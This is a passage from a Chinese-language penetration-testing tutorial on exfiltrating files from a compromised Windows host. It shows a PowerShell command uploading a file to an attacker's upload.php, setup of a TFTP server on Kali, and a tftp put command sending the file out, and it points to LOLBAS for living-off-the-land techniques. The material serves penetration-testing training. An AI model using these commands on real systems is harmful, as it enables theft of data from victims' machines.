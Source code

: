 请注意，这将允许任何人与上传.php上传文件到我们的卡利虚拟机。

当Apache和PHP脚本准备好接收我们的文件后，我们移动到受损的Windows主机并从System.Net.WebClient类来上载要进行筛选的文档，在本例中，是一个名为important.txt:

```
powershell (New-Object System.Net.WebClient).UploadFile('http://10.11 .0.4/upload.php', 'important.txt')
```

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1606232718307-6f8b1dff-8af1-43f4-a139-dfe28334d02b.png)

### 用TFTP上传文件

虽然上面显示的基于Windows的文件传输方法适用于自Windows 7和Windows Server 2008 R2之后的所有Windows版本，当遇到旧的操作系统时，我们可能会遇到问题。PowerShell虽然功能非常强大并且经常使用，但默认情况下不会安装在诸如windowsxp和windowsserver2003这样的操作系统上，这些操作系统仍然可以在一些生产网络中找到。虽然VBScript和FTP客户端都存在并且可以工作，但在本节中，我们将讨论另一种在该领域可能有效的文件传输方法。

tftp是一种基于UDP的文件传输协议，通常受到公司出口防火墙规则的限制。

在渗透测试期间，我们可以使用TFTP将文件从旧的Windows操作系统传输到windowsxp和2003。对于非交互式文件传输来说，这是一个非常好的工具，但在运行Windows7、Windows2008和更新版本的系统上，默认情况下不会安装它。

基于这些原因，TFTP在大多数情况下并不是一个理想的文件传输协议，但是在适当的情况下，它有它的优点。

在学习如何使用TFTP传输文件之前，我们首先需要在Kali中安装和配置TFTP服务器，并创建一个目录来存储和服务文件。接下来，我们更新目录的所有权，以便可以向其写入文件。我们将atftpd作为UDP端口69上的守护程序运行，并指示它使用新创建的/tftp目录：

```
sudo apt update && sudo apt install atftp
sudo mkdir /tftp
sudo chown nobody: /tftp
sudo atftpd --daemon --port 69 /tftp
```

在Windows系统上，我们将使用-i运行tftp客户机来指定二进制图像传输、Kali系统的IP地址、启动上载的put命令以及要上载的文件的文件名。

最后一个命令类似于：

```
tftp -i 10.211.55.4 put important.txt
```

关于一些令人难以置信的有趣的方法来使用通用的Windows实用程序进行文件操作、程序执行、UAC旁路等等，请参阅Oddvar Moe和几个贡献者维护的Living Off the Land Binaries and Scripts（LOLBAS）项目，该项目旨在“记录每个二进制文件、脚本和可用于[这些]技术的库，例如certutil.exe程序可以轻松下载任意文件等。

> LOLBAS：https://github.com/LOLBAS-Project/LOLBAS
